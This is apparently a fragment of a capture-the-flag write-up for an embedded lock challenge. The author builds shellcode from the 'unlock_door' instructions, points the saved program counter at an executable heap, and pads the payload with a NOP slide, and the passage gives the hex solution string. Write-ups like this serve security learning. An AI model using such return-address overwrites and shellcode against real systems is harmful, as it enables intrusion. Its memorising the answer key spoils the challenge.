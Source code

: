 In the end I tried to make a shell code. I copied the instructions in unlock_door:

```
3012 7f00 b012 b646 fd3f
```

And I pointed the saved pc to the heap (which is supposed to be non-executable on a protected system but here it worked!).

Also, to counter the overwritting problem I made a NOP slide. Here's the solution:

`909090909090 3012 7f00 b012 b646 fd3f 0e24 9a43`


